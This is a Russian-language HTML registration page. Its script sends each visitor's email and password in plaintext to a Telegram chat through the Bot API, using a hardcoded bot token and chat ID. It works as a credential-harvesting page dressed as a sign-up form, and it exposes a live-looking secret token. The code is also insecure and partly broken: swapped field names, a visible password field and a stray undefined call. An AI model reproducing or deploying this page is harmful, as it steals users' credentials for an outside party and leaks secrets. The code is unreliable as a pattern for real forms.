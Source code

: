 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form{
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1{
        margin-left: 100px;
      }
      button{
        margin-top: 10px;
        padding: 10px;
        background: green;
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p>Email</p>
        <input type="text" id="email" name="username" required>
        <br>
        <p>Password</p>
        <input type="text" id="pass" name="email" required>
        <br>
        <button type="submit">Зарегистрироваться</button>
    </form>

    <script>
        document.getElementById('registrationForm').addEventListener('submit', function(event) {
            event.preventDefault(); 

            const username = document.getElementById('pass').value;
            const email = document.getElementById('email').value;

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940 
            const message = `Новая регистрация:\nПароль: ${username}\nПочта: ${email}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

           
            fetch(url) 
                .then(response => {
                    if (response) {
                      preventDefault()
                        alert('Данные успешно отправлены в Telegram!');
                    } else {
                        alert('Ошибка при отправке данных.');
                    }
                })
                .catch(error => {
                    console.error('Ошибка:', error);
                    alert('Ошибка при отправке данных.');
                });
        });
    </script>
</body>
</html>
